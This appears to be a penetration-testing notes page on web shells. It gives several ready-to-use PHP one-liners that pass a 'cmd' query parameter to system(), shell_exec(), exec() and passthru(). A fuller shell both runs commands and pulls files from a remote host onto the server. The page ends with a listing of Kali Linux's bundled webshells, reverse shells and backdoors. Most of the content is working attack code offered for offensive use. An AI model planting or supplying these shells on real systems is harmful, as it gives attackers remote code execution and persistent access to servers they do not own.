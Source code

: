 # Web Shells

## WebShells

WebShells are simply shells that the user can interact with on a web interface, however, we can build our own malicious shells to gain remote code execution or access to the target system.

### PHP WebShells

We can use some built-in functions to execute a shell, however, you may want to [read this](https://stackoverflow.com/questions/1924939/among-request-get-and-post-which-one-is-the-fastest) first if you're not sure which request method to use.

Basically:

* You should use the method `$_GET` when someone is requesting data **from** the application.
* You should use the method `$_POST` when someone is pushing _\(inserting or updating ; or deleting\)_ data **to** the application.

system\(\):

```php
<?php system($_GET['cmd']);?>
```

shell\_exec\(\):

```php
<?php shell_exec($_GET['cmd']);?>
```

exec\(\):

```php
<?php exec($_GET['cmd']);?>
```

passthru\(\): 

```php
<?php passthru($_GET['cmd']);?>
```

Very functional shell:

```php
<?php
    echo "<pre>" . system($_GET['cmd']) . "</pre>";
?>
```

We can a create a more functional shell as follows:

```php
# Upload
if (isset($_GET['fupload'])) {
    file_put_contents($_GET['fupload'], file_get_contents($ip . $_GET['fupload']));
};
# Execute code
# shell_exec() or system() or exec()
if (isset($_GET['cmd'])) {
    echo "<pre>" . exec($_GET['cmd']) . "</pre>";
};
?>
```

## SecLists Shells

[SecLists](https://github.com/danielmiessler/SecLists) is an awesome collection of wordlists, it also includes webshells:

```text
SecLists/Web-Shells/
```

## Kali Linux Built-In WebShells

Kali Linux comes with some webshells in `asp, aspx, cfm, jsp, perl and php`which are under `/usr/share/webshells`:

```text
/usr/share/webshells/asp:
cmd-asp-5.1.asp
cmdasp.asp

/usr/share/webshells/aspx:
cmdasp.aspx

/usr/share/webshells/cfm:
cfexec.cfm

/usr/share/webshells/jsp:
cmdjsp.jsp
jsp-reverse.jsp

/usr/share/webshells/laudanum:
asp
aspx
cfm
helpers
jsp
php
wordpress
README

/usr/share/webshells/laudanum/asp:
dns.asp
file.asp
proxy.asp
shell.asp

/usr/share/webshells/laudanum/aspx:
shell.aspx

/usr/share/webshells/laudanum/cfm:
application.cfc
shell.cfm

/usr/share/webshells/laudanum/helpers:
shell.py

/usr/share/webshells/laudanum/jsp:
warfiles
cmd.war
makewar.sh

/usr/share/webshells/laudanum/jsp/warfiles:
META-INF
WEB-INF
cmd.jsp

/usr/share/webshells/laudanum/jsp/warfiles/META-INF:
MANIFEST.MF

/usr/share/webshells/laudanum/jsp/warfiles/WEB-INF:
web.xml

/usr/share/webshells/laudanum/php:
dns.php
file.php
hidden.php
host.php
killnc.php
php-reverse-shell.php
proxy.php
shell.php

/usr/share/webshells/laudanum/wordpress:
templates
laudanum.php

/usr/share/webshells/laudanum/wordpress/templates:
dns.php
file.php
host.php
ipcheck.php
killnc.php
php-reverse-shell.php
proxy.php
settings.php
shell.php

/usr/share/webshells/perl:
perl-reverse-shell.pl
perlcmd.cgi

/usr/share/webshells/php:
findsocket
php-backdoor.php
php-reverse-shell.php
qsd-php-backdoor.php
simple-backdoor.php

/usr/share/webshells/php/findsocket:
findsock.c
php-findsock-shell.php
```





